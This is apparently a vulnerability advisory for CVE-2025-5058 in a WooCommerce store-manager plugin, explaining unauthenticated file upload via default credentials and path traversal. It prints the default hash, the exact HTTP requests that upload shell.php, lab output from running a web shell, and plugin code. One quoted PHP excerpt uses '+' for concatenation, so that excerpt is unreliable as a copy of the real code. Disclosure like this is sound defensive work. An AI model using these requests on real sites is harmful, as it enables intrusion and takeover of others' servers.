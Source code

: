 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Upload via set_image Task'
date = 2025-05-23T05:30:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
description = "CVE-2025-5058: WordPress eMagicOne Store Manager plugin unauthenticated file upload via set_image task using default credentials."
+++
### CVE-2025-5058

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory via the `set_image` task.



## Reproduction
* A POC [CVE-2025-5058.py](https://github.com/d0n601/CVE-2025-5058/blob/main/CVE-2025-5058.py) is provided to demonstrate an attacker uploading a web shell named `shell.php`.

```console
python CVE-2025-5058.py https://lab1.hacker      

[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24"}
[+] Got session key: 03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24
[*] Uploading file via set_image...
[*] Upload response: <br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>324</b><br />
<br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>325</b><br />
{"response_code":"19","message":"Unable to resize one or more of your pictures"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 82708sec preferred_lft 82708sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 85990sec preferred_lft 13990sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0a:f0:30:8c brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' + self::TABLE_SESSION_KEYS
        + "` (`session_key`, `date_added`, `last_activity`) VALUES ('" + $this->shop_cart->p_sql( $key ) + "', '"
        + $date + "', '" + $date + "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_image` task, abusing the parameters to write arbitrary files:

```http
POST /?connector=bridge
Content-Type: multipart/form-data

task=set_image&entity_type=product&image_id=../../shell.php&key=<session_key>
file=@shell.php;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2115+):

```php
private function set_image() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_image( $entity_type, $image_id, self::UPLOAD_FILE_NAME, $type ) ) {
        $this->generate_error( $this->br_errors['upload_image_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~272+):

```php
public function set_image( $entity_type, $image_id, $img, $type ) {
    // ...
    $destination_path = $this->get_shop_root_dir() . "$entity_type/$image_id";
    // ...
    $result = move_uploaded_file( $tmp_name, $destination_path );
    // ...
}
```

**Result:** The file is written to the WordPress root (or any specified directory, via path traversal in image_id). 